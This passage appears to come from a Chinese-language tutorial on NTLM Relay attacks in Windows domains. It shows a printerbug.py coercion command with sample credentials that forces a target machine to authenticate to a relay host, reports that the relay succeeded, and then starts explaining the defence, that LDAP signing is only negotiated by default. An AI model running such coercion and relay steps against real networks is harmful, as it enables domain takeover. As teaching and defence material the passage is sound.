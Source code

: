 ```
python3 printerbug.py xie/hack:P@ssw0rd@10.211.55.9 10.211.55.10
```

![截图](b76130f6c7544e0fc735fe8903bcf74f.png)

可以看到我们 VPS 这边已经收到目标机器的流量并成功完成了中继了！

![截图](bb41a3a26dfa82e42cd5dfab425e19da.png)

## NTLM Relay 的防御

由于域内 NTLM Relay 攻击最常见的就是 Relay 到 LDAP 协议执行高危险操作，因此需要对 LDAP 协议进行安全加固。

如图所示，域控上 LDAP 协议默认策略是协商签名，也就是说是否签名是由客户端决定的，服务端跟客户端协商是否需要签名。因此这就造成了安全隐患，客户端可以选择不签名！

![截图](812c5472db8cf06aa513911b462f75c8.png)
